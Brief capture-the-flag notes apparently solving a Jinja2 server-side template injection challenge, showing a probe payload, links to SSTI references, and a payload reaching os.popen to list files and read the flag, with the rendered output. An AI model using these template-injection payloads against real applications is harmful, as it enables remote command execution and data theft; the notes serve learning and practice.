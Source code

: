 content={{7*'7'}} 
```
                <!doctype html>
                <h1 style="font-size:100px;" align="center">7777777 </h1>
```

jinja2

https://book.hacktricks.wiki/en/pentesting-web/ssti-server-side-template-injection/index.html
https://portswigger.net/web-security/server-side-template-injection

{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

```
                <!doctype html>
                <h1 style="font-size:100px;" align="center">__pycache__
app.py
flag
requirements.txt
</h1>
```

`{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}`

![[Pasted image 20250808175712.png]]

